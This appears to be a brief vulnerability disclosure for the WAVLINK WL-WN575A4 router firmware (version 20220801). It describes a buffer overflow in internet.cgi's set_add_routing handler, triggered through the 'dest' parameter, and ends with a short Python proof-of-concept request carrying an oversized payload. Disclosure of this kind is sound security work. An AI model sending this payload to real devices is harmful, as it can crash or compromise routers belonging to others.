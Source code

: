 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in internet.cgi/set_add_routing

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](10.png)

get value from dest 

![](11.png)  
if v5 equal 'net', call strcat, causee buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'set_add_routing', 'dest': payload ,'hostnet':'net'})
``` 
